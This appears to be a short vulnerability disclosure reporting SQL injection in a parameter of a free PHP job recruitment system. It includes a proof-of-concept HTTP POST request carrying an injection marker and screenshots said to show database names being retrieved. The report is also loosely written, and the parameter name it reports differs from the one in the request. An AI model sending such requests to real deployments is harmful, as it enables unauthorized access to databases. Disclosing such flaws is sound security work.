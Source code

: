 # job-recruitment-in-php has sql injection vulnerability in urle  parameter

## supplier 
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
urle parameter

## describe

 urle parameter. An unrestricted SQL injection attack exists in a job-recruitmentsystem. The parameters that can be controlled are as follows:  urle parameter . This function executes the urle parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

**Code analysis**    

When the parameter value of   $_POST['urle'] is obtained in function , it will be concatenated into SQL statements and executed, which has a SQL injection vulnerability. 

![image-20241226013202817](https://github.com/user-attachments/assets/ee2c638e-5de7-480e-9eaf-c9b00c1580bc)

## POC

```
POST /_parse/_all_edits.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/_parse/_all_edits.php
Cookie: PHPSESSID=etso55q58ionvmrvpetmaf8urt
Upgrade-Insecure-Requests: 1
Priority: u=0, i

action=cn_update&cname=1&url=1*
```

**Result**

get databases name

![image-20241226013414568](https://github.com/user-attachments/assets/904824cd-0bf6-42e8-a072-fdaf5345c6fd)

![image-20241226013405312](https://github.com/user-attachments/assets/fd4a6d5f-7c7d-418d-8db1-2bbd2d5bc9a0)
